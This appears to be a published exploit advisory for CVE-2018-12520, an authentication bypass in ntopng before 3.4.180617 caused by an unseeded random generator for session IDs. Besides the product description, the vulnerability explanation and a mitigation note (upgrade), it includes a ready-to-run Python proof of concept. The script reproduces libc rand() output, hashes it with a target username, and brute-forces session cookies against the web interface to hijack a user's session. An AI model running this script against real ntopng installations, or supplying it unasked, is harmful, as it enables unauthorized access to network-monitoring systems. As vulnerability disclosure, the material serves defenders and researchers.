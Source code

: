 EXP
---

    # Vulnerability title: ntop-ng < 3.4.180617 - Authentication Bypass
    # Author: Ioannis Profetis
    # Contact: me at x86.re
    # Vulnerable versions: < 3.4.180617-4560
    # Fixed version: 3.4.180617
    # Link: ntop.org
    # Date: 2.07.2018
    # CVE-2018-12520

    # Product Details
    ntopng is the next generation version of the original ntop, a network traffic probe that shows the network usage, similar to what the popular top Unix command does. ntopng is based on libpcap and it has been written in a portable way in order to virtually run on every Unix platform, MacOSX and on Windows as well.

    # Vulnerability Details
    An issue was discovered in ntopng 3.4.
    The PRNG involved in the generation of session IDs is not seeded at program startup.
    This results in deterministic session IDs being allocated for active user sessions. An attacker with foreknowledge of the operating system and standard library in use by the host running the service and the username of the user whose session they're targeting can abuse the deterministic random number generation in order to hijack the user's session, thus escalating their access.

    # Exploit
    A proof-of-concept for this vulnerability can be found below. Note that this script has been tested with Python 2.7, and requires the 'requests' module, which can be found in the Python Package Index.

    import requests
    import sys
    import hashlib
    from ctypes import *
    libc = CDLL('libc.so.6')

    if __name__ == "__main__":
        if len(sys.argv) < 3:
            print('[-] Usage: python poc.py <host> <username>')
            sys.exit(1)

        host, username = sys.argv[1:]
        for i in range(256):
            print('[*] Trying with rand() iteration %d...' % i)
            session = hashlib.md5(('%d' % libc.rand()) + username).hexdigest()
            r = requests.get(host + '/lua/network_load.lua', cookies={'user': username, 'session': session})
            if r.status_code == 200:
                print('[+] Got it! Valid session cookie is %s for username %s.' % (session, username))
                break

    # Mitigation
    Upgrade to the latest stable version of ntop-ng 3.4.

    # Attack Type
    Remote, Unauthenticated, Escalation of Privileges, Information Disclosure